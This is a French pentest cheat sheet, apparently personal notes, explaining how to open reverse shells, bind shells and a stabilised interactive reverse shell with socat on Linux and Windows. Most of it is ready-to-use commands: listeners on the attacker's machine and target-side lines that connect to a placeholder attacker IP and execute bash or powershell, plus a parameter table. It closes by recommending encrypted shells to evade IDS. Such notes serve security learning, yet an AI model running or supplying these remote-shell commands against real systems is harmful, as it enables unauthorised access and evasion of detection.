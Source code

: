 
## __Reverse shell__

[Binaire précompilé de socat](Binaries##__Linux__###x86-64####Socat) 
Pour setup un reverse shell avec socat c'est légèrement plus compliqué qu'avec netcat.

#### 1- Listener -- Notre machine

Sur notre machine il faut effectuer la commande :

```shell
user@ip: ~$ socat TCP-L:1345 -
```

Cette commande est équivalente à faire **`nc -vnlp 1234`**.

#### 2- Connection -- Machine cible

Sur la machine cible, on va effectuer la commande :

1) Sur une machine **windows**

```shell
PS C:\Users\user> socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

2) Sur une machine **linux**

```shell
user@raspberrypi: ~$ socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:"bash -li"
```


## __Bind shell__

#### 1- Listener -- Machine cible

1) Sur la machine cible sous **Linux** :

```shell
user@raspberrypi: ~$ socat TCP-L:<TARGET-PORT> EXEC:"bash -li"
```

2) Sur une machine **Windows**

```shell
PS C:\Users\user> socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

#### 2- Connection -- Notre machine

```shell
user@ip: ~$ socat TCP:<TARGET-IP>:<TARGET-PORT> -
```


## __Stable Reverse shell__

Pour setup un reverse shell entièrement stable, on va

#### 1- Listener -- Notre machine

```shell
user@ip: ~$ socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

C'est l'équivalent de faire `stty raw -echo; fg`.

#### 2- Connection -- Machine cible

```shell
user@raspberrypi: ~$ socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

| Argument   | But                                                                                                                       |
| ---------- | ------------------------------------------------------------------------------------------------------------------------- |
| **pty**    | alloue un pseudoterminal sur la cible -- partie du processus de stabilisation                                             |
| **stderr** | s'assure que tous les messages d'erreur sont affichés dans le shell                                                       |
| **sigint** | transmet toutes les commandes Ctrl + C au sous-processus, ce qui nous permet de tuer les commandes à l'intérieur du shell |
| **setsid** | crée le processus dans une nouvelle session                                                                               |
| **sane**   |  stabilise le terminal en essayant de le "normaliser".                                                                                                                          |


## __Encrypted shell__

Les shells chiffré sont très utile pour bypass les IDS car ils ne peuvent pas être lue à part si l'on a la clé de déchiffrement.

